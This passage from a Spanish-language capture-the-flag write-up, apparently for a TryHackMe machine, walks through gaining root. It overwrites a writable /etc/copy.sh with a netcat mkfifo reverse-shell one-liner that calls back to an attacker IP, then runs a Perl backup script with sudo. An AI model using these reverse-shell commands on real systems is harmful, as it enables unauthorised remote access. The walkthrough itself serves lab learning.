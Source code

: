 1. Comando Actual de /etc/copy.sh (Ejemplo de la captura):

   
<img width="727" height="181" alt="script copy sh" src="https://github.com/user-attachments/assets/0268a0ae-2832-4fa9-be47-074c25e1333e" />

````
Bash
$ cat /etc/copy.sh
/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
````
(Nota: Este script ya contiene una inyección de shell para una IP diferente, lo que confirma que el archivo es modificable.)

2. Inyección de Nuestro Payload:

Modificamos /etc/copy.sh para que contenga un reverse shell que se conecte a nuestra IP  en el puerto 5554.

<img width="1124" height="78" alt="modificamos el script de perl con la ip y puerto" src="https://github.com/user-attachments/assets/42826a70-212b-419c-b5b3-d2d3c7474f2f" />

Utilizamos echo para sobrescribir el contenido del archivo con el payload de reverse shell de Netcat (usando el truco de la TTY, aunque la forma simple también funciona).

````
Bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.147.155 5555 >/tmp/f" > /etc/copy.sh
````
Nota: El comando inyectado en la captura es más complejo y robusto, pero el objetivo es el mismo: forzar una conexión a nuestro listener.

👂 Configuración del Listener de Root

Antes de ejecutar el script, abrimos un nuevo listener de Netcat en nuestra máquina Kali en el puerto especificado:

````
Bash
nc -lvnp 5554
````

🚀 Ejecución del Script como Root

Finalmente, ejecutamos el script backup.pl con sudo. Esto obligará al sistema a ejecutar /etc/copy.sh con los permisos de root.

Bash
sudo /usr/bin/perl /home/itguy/backup.pl

👑 Root Shell Obtenida

Al ejecutar el comando sudo, el payload inyectado en /etc/copy.sh se ejecuta, y la conexión de root shell entra en nuestro listener de Netcat.

<img width="638" height="128" alt="ya tenemos privilegios shell" src="https://github.com/user-attachments/assets/b01dbb50-54fc-4a53-b3a4-c89001566398" />


## 🚩 Paso 22: Captura de la Bandera de Root

Una vez que somos root, la bandera final está en el directorio /root.

<img width="436" height="127" alt="bandera de root" src="https://github.com/user-attachments/assets/67688f21-5e50-452d-aae5-ae4d08a95c3e" />

````
Bash
cd /root
ls
cat root.txt
````
Bandera de Root Encontrada:

THM{...}
